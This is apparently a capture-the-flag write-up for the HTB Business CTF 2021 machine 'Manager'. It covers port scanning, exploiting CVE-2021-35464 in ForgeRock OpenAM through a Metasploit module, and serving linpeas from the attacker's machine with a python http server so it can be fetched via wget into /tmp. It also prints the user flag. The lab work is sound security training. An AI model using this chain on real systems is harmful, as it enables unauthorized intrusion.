


# HTB Business CTF 2021
## Fullpwn writeup - Manager-user

First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n -Pn -sV 10.129.173.133
```


As we can see, the machine have open port on 8080 (Apache tomcat). 
I will try to check what is that in browser by typing ```http://10.129.173.133:8080```:



It redirected us to ```http://manager.htb:8080/openam/UI/login``` which is unavailable.
In that case It's good to add in /etc/hosts a static domain to IP mapping and try do it again:


After successful change, let's try again and see what's behind it:


It's a OpenAM login webiste - we don't have any credentials, so first I checked for exploits for it.
By typing ```openam exploit``` I found the fresh one vulnerability, which is Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464). It's a classic example of Java deserialization - more details you can find [there](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464). On [packet storm](https://packetstormsecurity.com/files/cve/CVE-2021-35464) I found also the raw exploit code and the Metasploit module called ```exploit/multi/http/cve_2021_35464_forgerock_openam```:


Let's try to use module in Metasploit. We need to setup proper values to use exploit properly. 


After completing exploit configuration I checked if it is for sure vulnerable and execute the exploit:


It opened successfully a session for us, where we can enable interactive shell. 


We have a access to the machine as a ```tomcat``` user. Tomcat user can write a files in a /tmp/ folder which could be a dropzone for us. I will use that fact to drop linpeas script to check vulnerabilities on that machine in purpouse of obtaining a ```root```. To do that I simply start http server in python on Kali and use wget in shell to download a script:

```
python3 -m http.server 8080
wget 10.10.14.55:8080/linpeas.sh -P /tmp/
```


Then I add a execute rights and start a script. 



When I checked results my eyes stopped on files inside /opt/tomcat. I saw interesting file called user.txt. 


In that file we have the first flag for tomcat user - HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}. 


The second one flag for root user  unfortunaley I didn't catch :/.

